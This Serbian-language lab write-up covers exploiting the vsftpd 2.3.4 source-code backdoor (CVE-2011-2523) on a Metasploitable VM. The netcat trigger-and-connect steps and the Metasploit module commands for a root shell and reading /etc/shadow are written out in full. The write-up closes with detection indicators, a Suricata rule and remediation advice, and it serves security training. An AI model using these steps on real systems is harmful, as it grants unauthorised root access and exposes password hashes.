


# vsftpd 2.3.4 — Backdoor (CVE-2011-2523)

Ova verzija vsftpd je bila kompromitovana negde između juna i jula 2011,
kada je neko ubacio backdoor kod direktno u izvorne fajlove na download
serveru projekta. Za razliku od Samba usermap_script bug-a, ovde ne
eksploatišemo grešku u logici servisa — server je već "trovan" pre nego
što je uopšte instaliran.

## Cilj
- IP: 192.168.56.102
- Port: 21 (FTP), backdoor shell se otvara na portu 6200
- Servis: vsftpd 2.3.4

## CVE
CVE-2011-2523

## Tip napada
Backdoor ubačen u izvorni kod (supply chain kompromitacija)

## MITRE ATT&CK
- T1190 – Exploit Public-Facing Application
- T1059 – Command and Scripting Interpreter

## Mehanizam

Trik je u tome što ako username tokom FTP login-a sadrži karakter `:)`,
backdoor kod se aktivira i servis otvara bind shell na portu 6200. Ne
treba ni tačna lozinka — čim se konektuješ na taj port, dobijaš root.

---

## Metod 1: Ručna eksploatacija

### Korak 1: Trigeruj backdoor preko FTP konekcije

```bash
nc 192.168.56.102 21
```

Kad se konekcija otvori, ukucaj:

USER backdoor:)
PASS bilokoja


Konekciju posle ovoga možeš prekinuti (Ctrl+C) — backdoor ostaje aktivan,
port 6200 je sada otvoren.

### Korak 2: Poveži se na backdoor port

```bash
nc 192.168.56.102 6200
```

### Rezultat



Odmah po konekciji dobija se root shell bez ikakve dodatne autentifikacije:

whoami → root
id → uid=0(root) gid=0(root)
uname -a → Linux metasploitable 2.6.24-16-server ...
cat /etc/shadow | head -5 → hash-evi lozinki, vidljivi bez ograničenja


---

## Metod 2: Metasploit

### Komande

```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.56.102
set LHOST 192.168.56.101
run
```

### Rezultat



Metasploit modul radi identičnu stvar u pozadini, samo automatizovano —
sam šalje `:)` payload i otvara sesiju:

[+] Backdoor has been spawned!
[*] Meterpreter session 1 opened
meterpreter > getuid → Server username: root
meterpreter > sysinfo → Metasploitable, Ubuntu 8.04, i686
meterpreter > shell
cat /etc/shadow → potvrda root pristupa


---

## Detekcija (blue team ugao)

Nekoliko stvari bi ovde trebalo da upali alarm kod pravog SOC tima:
- Konekcija na port 6200 — nije standardan servis, nema razloga da bude otvoren
- FTP login pokušaj sa čudnim karakterima u username polju
- Shell proces koji se spawn-uje odmah nakon FTP konekcije, bez ikakve legitimne veze između ta dva događaja
- Meterpreter/reverse shell saobraćaj ima prepoznatljiv TCP handshake obrazac ka nestandardnom portu

## IDS potpis (Suricata primer)

alert tcp any any -> any 6200 (msg:"vsftpd 2.3.4 backdoor shell connection"; sid:9000001;)


## Remedijacija
- Ne koristiti vsftpd 2.3.4 pod nikakvim uslovima — upgrade na aktuelnu verziju
- Proveravati integritet paketa pre instalacije (checksum, potpisani repo)
- Firewall pravilo koje blokira nestandardne portove poput 6200
- Redovan monitoring neočekivano otvorenih portova na produkcionim serverima

## Screenshots
- `01_vsftpd_manual_root.png`
- `01_vsftpd_metasploit_root.png`